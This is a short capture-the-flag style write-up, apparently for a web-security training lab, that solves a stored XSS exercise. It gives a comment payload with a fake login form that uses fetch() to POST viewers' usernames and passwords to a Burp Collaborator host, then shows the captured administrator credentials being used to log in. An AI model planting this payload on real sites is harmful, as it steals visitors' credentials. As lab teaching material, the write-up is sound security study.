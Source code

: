![image](https://github.com/udayk01/Web-Security/assets/52235763/33cc4cd8-d209-49d6-b421-cae32f5d18d3)

## Solution:

> Using Burp Suite Professional, go to the Collaborator tab.

> Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.

> collaborator payload: ``` ne5d7vru1w54vo27xr47ni38nztqhg55.oastify.com ```

> Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">

```
> This script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server.

![image](https://github.com/udayk01/Web-Security/assets/52235763/f778b33b-d96c-4c71-ace4-1e64c3ad8f85)

> Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.

![image](https://github.com/udayk01/Web-Security/assets/52235763/a031d7ab-aee6-4aa7-8cb1-7e1ae296f8f0)

> Take a note of the value of the victim's username and password in the POST body.

 >> username: administrator

 >> password: wdcb63dj0bui1dzxu9ar

> Login using the credentials to solve the lab

![image](https://github.com/udayk01/Web-Security/assets/52235763/ac9ddcee-6129-4fa9-9a30-ab3c07ebbbe9)
